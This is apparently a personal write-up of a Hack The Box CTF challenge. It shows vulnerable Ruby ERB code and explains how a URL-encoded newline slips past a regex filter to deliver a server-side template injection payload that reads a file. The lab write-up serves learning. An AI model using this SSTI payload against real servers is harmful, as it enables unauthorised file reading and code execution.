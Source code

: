 
2024-09-21 18:51

Source: #htb 

Source Code Snippet - 
```ruby
if params[:neon] =~ /^[0-9a-z ]+$/i  
	@neon = ERB.new(params[:neon]).result(binding)  
else  
	@neon = "Malicious Input Detected"  
end
```

> And also, there is interesting situation. Even if you can use `%` in request , you can't use it in browser. you still will get “**Malicious Input Detected**” message.
> 
> But when you use it in **Burp suite** :
> You will see that we get “**Invalid query parameters: invalid %-encoding (a %)**” message.  
> It means something is wrong in our encoding but it still allows to send `%`

We send the request in burp w payload (url encode this)-  
```ruby
a  
<%= File.open('flag.txt').read %>
```

we need to pass the main payload in a new line . Why ?
in the above code `@neon` gets the parameter which we input and sends it to `index.erb`
If we want to run this code, In this code,  :

```html
<%= File.open('flag.txt').read %>
```

we have to pass new line like this :

```html
<h1 class="glow"><%= @neon  
<%= File.open('flag.txt').read %>%></h1>
```

And we can't leave `@neon` empty , that's why we write it like :

```html
<h1 class="glow"><%= a  
<%= File.open('flag.txt').read %>%></h1>
```

We need to use new line, but we cant use `/n`, we need to encode `/n` too.
do `/n` encoding in burps decoder or just go to [this website](https://www.urlencoder.org/) and encode it w/o `/n`

### References

SSTI for apps written in Ruby  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby---retrieve-etcpasswd

https://medium.com/@nurlanisazade/hack-the-box-neonify-walkthrough-guided-mode-cbd8d71962f9